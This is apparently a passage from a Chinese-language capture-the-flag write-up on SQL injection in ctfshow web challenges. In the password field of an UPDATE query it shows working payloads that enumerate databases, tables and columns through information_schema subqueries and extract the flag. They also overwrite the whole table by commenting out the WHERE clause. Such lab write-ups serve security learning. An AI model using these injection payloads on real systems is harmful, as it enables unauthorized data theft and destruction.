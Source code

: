 接口返回信息，修改成功，可以正常执行

![2302](/medias/show-sql/2302.png)

在password字段上注入，把想查的数据通过子查询和update修改到当前显示的表里。因为把后面where判断注释了，所以会修改整个表

`在发愁记不住查库表字段语句？hackerbar准备的有联合查询语句，删掉union就可以用了`

```sql
# 查库
username=ctfshow&password=1',username=(select group_concat(schema_name) from information_schema.schemata);#
# 查表
username=information_schema,test,mysql,performance_schema,ctfshow_web&password=1',username=(select group_concat(table_name) from information_schema.tables where table_schema=database());#
# 查字段flag在flaga表的flagas字段里
username=banlist,ctfshow_user,flaga
&password=1',username=(select group_concat(column_name) from information_schema.columns where table_schema=database());#
# 查flag
username=id,char,id,username,pass,id,flagas,info&password=1',username=(select group_concat(flagas) from flaga);#
```

## web 232

修改语句给password添加了一个md5函数处理，直接给他闭合，后面加上自己的上题的语句。测试查询版本信息，可以正常执行

![232](/medias/show-sql/232.png)
